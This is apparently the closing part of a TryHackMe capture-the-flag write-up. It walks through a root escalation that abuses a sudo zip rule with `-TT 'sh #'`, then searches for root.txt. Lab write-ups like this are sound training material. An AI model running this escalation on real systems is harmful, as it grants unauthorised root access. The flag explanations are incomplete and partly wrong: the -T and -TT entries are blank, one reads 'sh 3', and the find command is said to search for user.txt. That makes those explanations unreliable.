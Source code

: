
`TF=$(mktemp -u)`
+ **mktemp** creates a temporary file or directory
+ **-u** Generates a unique name without actually creating the file or directory


`sudo zip $TF /etc/hosts -T -TT ‘sh #’`
+ **$TF /etc/hosts**
+ **-T**
+ **-TT 'sh 3**


`find / -type f -name root.txt 2>/dev/null`
+ **/** specifies the starting directory to be the root directory
+ **-type f** specifies that it should only search for regular files
+ **-name root.txt** specifies to search for a file called user.txt
+ **2>/dev/null** redirects error output (stderr) to the null device ensuring that any error message encountered during the search are suppressed and not displayed on the terminal

# Contributions
This writeup was made by Jonmar Corpuz, founder of **KnowCybersecurity** (www.knowwwcybersecurity.com)


Socials:
* TryHackMe ID: https://tryhackme.com/p/mtlfriends
* LinkedIn: https://www.linkedin.com/in/jonmar-corpuz-12771a234/



